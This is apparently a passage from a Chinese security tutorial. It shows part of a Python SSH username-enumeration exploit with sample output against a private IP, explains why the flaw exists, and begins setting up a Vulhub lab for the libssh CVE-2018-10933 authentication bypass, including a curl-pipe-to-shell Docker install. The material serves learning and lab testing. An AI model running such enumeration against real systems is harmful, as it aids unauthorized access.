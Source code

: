 ```python
    sys.exit(3)
except paramiko.ssh_exception.AuthenticationException:
    print '[+] Valid username'
```

使用方式：

```shell
python ssh_checkusername.py 10.110.1.69 --port 22 oracle
[+] Valid username
python ssh_checkusername.py 10.110.1.69 --port 22 root
[+] Valid username
python ssh_checkusername.py 10.110.1.69 --port 22 admin
[*] Invalid username
```

这是一个非常巧妙的漏洞，没有涉及到可以远程代码执行的缓冲区溢出漏洞和输入的验证过程。

在整个过程中既没有缓冲区溢出，使用到的输入内容也都符合验证要求。唯一的问题是可能出于性能需求的考虑，在一些函数处理后才进行对输入的验证，先判断用户名是否存在，如果不存在，那么就没必要进一步验证它的后续请求过程。

如果用户名存在，再对后续请求进行验证，那么会导致不返回信息就中断连接。这样就可以用来枚举一个用户名是否存在。

## libssh 服务端权限认证绕过漏洞（CVE-2018-10933）

#### 安装Vulhub

Vulhub是一个面向大众的开源漏洞靶场，无需docker知识，简单执行两条命令即可编译、运行一个完整的漏洞靶场镜像。

```shell
# If you don't have a docker installed, you'll need to install docker 
curl -s https://get.docker.com/ | sh 
# Kali下可使用apt
apt install docker.io

# Use pip to install docker-compose 
pip install docker-compose  
# 安装完成后，执行docker-compose -v，有返回则说明安装成功。

# 安装完成docker和docker-compose后，拉取Vulhub到本地任意目录即可（如/usr/local/）：
git clone https://github.com/vulhub/vulhub.git

# 如果拉取速度太慢，可以直接下载master分支的压缩包：Vulhub.zip https://github.com/vulhub/vulhub/archive/master.zip。

# Entry vulnerability directory 
cd /usr/local/vulhub/

# Compile (optional) 
docker-compose build 

# Run 
docker-compose up -d 
```
